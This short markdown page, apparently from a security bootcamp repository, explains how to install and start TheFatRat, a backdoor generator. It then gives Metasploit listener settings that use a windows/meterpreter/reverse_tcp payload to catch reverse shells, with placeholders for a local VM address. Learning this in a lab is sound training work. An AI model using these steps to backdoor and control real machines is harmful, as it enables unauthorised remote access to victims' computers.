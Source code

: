 ## TheFatRat - Backdoor Generator: 
- Git clone from [Official Github Page](https://github.com/screetsec/TheFatRat#thefatrat) as `git clone <github-Link>`
- Follow the steps as shown in its [documentation](https://github.com/screetsec/TheFatRat#installation).

> Note: Complete the Setup before running it for the first time, follow along & set up all the dependencies during installation.

- Start the Tool as `fatrat`
- - ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/b8ec7e91-e835-4699-be9b-fb7d2a7ceabe)

## Note:
- Use the Number to give the command to the tool
- You need to `Set Up the listener` with `msfconsole` from FatRat Menu after creating the Backdoor.
```
Set listener as
eg.
msfconsole from FatRat Menu >

set exploit: use exploit/multi/handler
set payload: set payload windows/meterpreter/reverse_tcp
set LHOST <Local-VM-IP>
set LPORT <Local-VM Port same as backdoor-set-up-in-FatRat>
```
- 

